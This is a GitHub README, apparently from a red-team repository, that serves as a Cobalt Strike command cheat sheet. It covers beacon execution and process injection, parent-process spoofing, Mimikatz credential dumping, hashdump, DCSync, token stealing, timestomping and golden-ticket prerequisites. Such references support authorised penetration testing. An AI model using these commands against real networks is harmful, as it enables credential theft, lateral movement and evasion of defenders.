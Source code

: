 <p align="center">
  <img width="700" height="150" src="https://github.com/bigb0sss/RedTeam/blob/master/01-CobaltStrike/cs_logo.png">
</p>

## Command References

#### Beacons
##### Sleep
```css
sleep 60 50               ; Sleep 60 sec with 50% of jitter (Call back between 30 to 60 secs randomly) 
```

#### Command Execution
##### Default
```css
run [command]
```
##### powershell.exe
```css
powershell-import [/path/to/your.ps1]       ; Running it from your localhost
powershell [cmdlet] [args]
```
##### powerpick (Using PS w/o powershell.exe)
```css
powrepick [cmdlet] [args]
```

##### psinject (Using PS within another process)
```css
psinject [PID] [x86|x64] [cmdlet] [args]
```

##### .NET
```css
execute-assembly [/path/to/your.exe]        ; Running it from your localhost
```

##### cmd.exe
```css
shell [command] [args]
```

#### Session Passing
```css
spawn [x86|x64] [Listener]
inject [PID] [x86|x64] [Listener]
```

#### Parent Process Modification
```css
ppid [Choice of your parent process (e.g., iexplore.exe)]
spawnto [x86|x64] [New parent process]
```

#### SMB Beacn
```css
spawn [SMB-Listner-Name]                    ; Spawning a peer-to-peer ("P2P") SMB beacon 
inject [PID] [x86|x64] [SMB-Listner-Name]   ; Useful when trying to spawn P2P beacon as different user context
```

#### TCP Beacn
```css
spawn [TCP-Listner-Name]                    ; Spawning a peer-to-peer ("P2P") TCP beacon 
                                            ; TCP beacons can be also run locally by clicking "Bind to localhost only" on GUI
inject [PID] [x86|x64] [TCP-Listner-Name]   ; Useful when trying to spawn P2P beacon as different user context
```

#### Credentials and Hashes
```css
logonpasswords                              ; Run Mimikatz
hashdump                                    ; Get SAM database hashes
```

#### Mimikatz
```css
mimikatz [command] [args]                   ; Runs a Mimikatz command
mimikatz ![command] [args]                  ; Elevate to SYSTEM and run Mimikatz command
mimikatz @[command] [args]                  ; User current token to run Mimikatz command
```
#### DCSync
```css
dcsync [domain] [DOMAIN\user]
```

#### File Download
```css
download [file]
cancel [file|*]
downloads
View --> Downloads --> Sync Files
```

#### File Upload
```css
upload [/path/to/file]
timestomp [Destination] [Source]            ; Changing file's timestamps (*Do not recommend using it during the engagement) 
```

#### Token Stealing
```css
ps                                          ; List process
steal_token [PID]                           ; Stealing token
getuid                                      ; Identify/confirm who you are
rev2self                                    ; Drop/revoke token

spawnas DOMAIN\user password                ; Spawn a beacon w/ alternative creds
make_token DOMaIN\user password             ; Create a token. So when you do a make_token, when you do 'whoami' you will 
                                            ; still see your current user account; however, if you do a remote 'whoami' 
                                            ; (maybe against DC) you will see that the maked token user.
```

#### Kerberos Tickets
```css
klist                                       ; See your current Kerberos tray 
kerberos_ticket_purge                       ; Purge tickets
kerberos_ticket_user [/path/to/file.ticket] ; Load a ticket

<Golden Ticket>
- Desired user and DOMAIN name
- Domain SID [whoami /user + drop last number]
- NTLM hash of krbtgt user from DC
```

